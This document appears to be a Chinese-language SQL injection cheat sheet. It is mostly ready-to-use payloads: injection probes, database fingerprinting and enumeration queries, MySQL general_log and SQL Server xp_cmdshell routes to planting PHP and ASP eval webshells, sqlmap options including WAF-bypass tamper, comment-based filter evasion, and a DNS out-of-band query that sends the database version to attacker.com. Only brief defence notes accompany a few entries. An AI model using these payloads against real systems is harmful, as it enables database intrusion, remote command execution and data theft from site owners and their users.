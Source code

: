 ## 判断是否有注入
`11'+//AND+//(//SELECT//+2868+//FROM//+(//SELECT//(SLEEP(2)))pcFy)+//AND//+'`

`%0dunion%0aselect%0auser`

## 初步判断数据库类型
`'and user>0`

如果有报错为：在将nvarchar值'dbo'转换成数据类型int时失败，则数据库为sqlserver数据库，不是mysql

## 判断数据库系统
`'and (select count(*) from sysobjects)>0  正常则是SqlServer`

`'and (select count(*) from msysobjects)>0 正常则是Mysql`

+ **;**	Oracle中不支持多行查询，返回错误，很可能是Oracle数据库
+ **#**	是MySQL中的注释符，返回错误说明该注入点可能不是MySQL
+ **–** 和**/**/**是Oracle，SQL server和MSSQL支持的注释符，如果正常，说明可能就是这仨了

## Mysql数据库
### 常用sql语句和函数
#### 查库
`select group_concat(shcema_name) from information_schema.schemata`

#### 查表
`select group_concat(table_name) from information_schema.tables where table_schema=库名`

#### 查列
`select group_concat(column_name) from information_schema.columns where table_name='表明'`

#### 查值
`select group_concat(列名1,';',列名2) from (select * from 库名.表名 limit 0,10) as a`

### GetShell
#### 查看数据库路径
`show variables like '%datadir%'` 通过显示数据库所在的路径来猜测web路径

#### 查看是否开启日志
`show variables like '%general%'`

#### 开启日志
`set global general_log = "ON";`

#### 设置日志路径
`set global general_log_file ='<网站根目录>/config.php';`

#### 写入webshell
`select "<?php @eval($_POST[abc]);?>";`

#### 连接getshell
`https://<web路径>/config.php`

## Sql Server数据库
### 判断是否为sa权限
`;if(1=(select is_srvrolemember('sysadmin'))) WAITFOR DELAY '0:0:5';--`

### 查看是否开启了xp_cmdshell
`;if(1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell')) WAITFOR DELAY '0:0:5'--`

### 开启xp_cmdshell(SA权限用户)
`;EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;`

### 执行cmd命令
`;EXEC master..xp_cmdshell 'cmd命令';--`

### 查看是否开启成功（是否出网）
`;EXEC%20master..xp_cmdshell 'ping aa.dnslog';--`

### 写入webshell
`;EXEC%20master..xp_cmdshell 'echo ^<%eval request(chr(35))%^> > C:/inetpub/xxxxxx/a.asp';--`

## sqlmap语法
demo：`sqlmap -r 1.txt --random-agent --tamper=space2comment --level 4 --risk 3 --technique=T --dbms=mysql -p uname --dbs`

+ --random-agent：header头中的agent随机伪造，默认agent是有特征的会被waf拦截
+ --technique：指定探测技术，B 布尔盲注；T 时间盲注；E 报错注入；U 联合查询
+ --batch：自动选择过程中的询问请求
+ --tamper=space2comment：使用脚本绕过waf或过滤，默认脚本放在tamper目录下
+ --level：测试深度，等级1-5。使用5级会使用更多的payload
+ --risk：语句复杂度，等级越高越复杂，一般用3
+ --force-ssl：使用https服务，需要改端口后面加端口
+ --dbms：指定数据库类型
+ --cookie：指定cookie值
+ --is-dba：检测数据库权限。如果DBA是True可以尝试直接拿shell
+ -p：指定测试参数
+ -D：指定数据库名
+ -T：指定表名
+ -C：指定字段名
+ --dbs：获取所有数据库名
+ --userss：获取用户名
+ --tables：获取所有表名
+ --colums：获取字段名
+ --dump：下载当前数据库的所有数据
+ **<font style="color:rgb(68, 68, 68);">--file-read：读取文件</font>**
+ --purge ：清理缓存

## 利用SQL注释与空白符绕过基于正则的SQL注入规则
```sql
SELECT/*!88888cas*/t(1)FROM/**/users WHERE 1=1 UNION%a0SELECT version()
```

**<font style="color:rgb(51, 51, 51);">原理</font>**<font style="color:rgb(63, 63, 63);">：利用SQL注释与空白符干扰词法分析  
</font>**<font style="color:rgb(51, 51, 51);">突破点</font>**<font style="color:rgb(63, 63, 63);">：绕过基于正则的SQL注入规则  
</font>**<font style="color:rgb(51, 51, 51);">防御</font>**<font style="color:rgb(63, 63, 63);">：启用SQL语义分析引擎</font>

## OOB外带数据通道
```sql
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT @@version),'.attacker.com\\test'))
```

**<font style="color:rgb(51, 51, 51);">检测突破</font>**<font style="color:rgb(63, 63, 63);">：基于时间的盲注检测失效  
</font>**<font style="color:rgb(51, 51, 51);">防御</font>**<font style="color:rgb(63, 63, 63);">：限制出站DNS请求</font>

## <font style="color:rgb(51, 51, 51);">XPath盲注载荷生成</font>
```sql
' or count(/*)=1 or 'a'='b
```

**<font style="color:rgb(51, 51, 51);">原理</font>**<font style="color:rgb(63, 63, 63);">：通过节点数量判断结构信息  
</font>**<font style="color:rgb(51, 51, 51);">检测方案</font>**<font style="color:rgb(63, 63, 63);">：XPath查询参数化</font>

